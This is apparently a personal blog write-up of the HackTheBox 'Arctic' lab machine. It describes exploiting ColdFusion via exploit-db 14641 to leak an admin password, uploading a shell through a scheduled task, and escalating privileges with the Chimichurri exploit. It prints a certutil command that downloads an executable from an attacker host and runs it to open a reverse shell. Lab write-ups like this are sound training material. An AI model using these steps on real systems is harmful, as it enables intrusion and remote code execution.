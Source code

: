 ```yaml
---
layout: post
title:  "HackTheBox - Arctic"
date:   2020-1-2 00:10:00 +0000
categories: htb
---
```


Arctic was an easy one that i wont forget due to how certain exploits are used.

# Recon
Port scanning shows port 5800 is open serving coldfusion
Some directory bruteforcing returns CFIDE which will be our admin endpoint.

# Pwning the webapp

Searching exploit-db, we find a suitable exploit that may assist in getting into the coldfusion admin panel. Exploit 14641 does some amazing things, it will retrieve the password hash of the admin/user of the panel and inject it into the html of the login form!
From this we get the password of 'happyday'. From there, gaining a reverse shell through coldfusion is fairly stock standard. Setup a scheduled task with an upload and output file with a web directory then upload a shell. Run the task and navigate to the saved directory with a listener to gain a shell as arctic\tolis

# Gaining root

Running 'systeminfo' on the box shows us theres no hotfixes installed and its not a brand new os. This particular box shows signs of being vulnerable to <???>. Download the Chimchurri exploit from github. Use a method of file transfer on windows like the following to recieve the file.
```
<run webserver to host file>
certutil -urlcache -split -f http://10.10.14.4/chimchurri.exe churr.exe
<execute exploit when new listener is running>
churr.exe 10.10.14.4 443
```
Thats it ! quick and easy root for arctic. 14641 is still one of the simplest and most effective exploits ive seen.

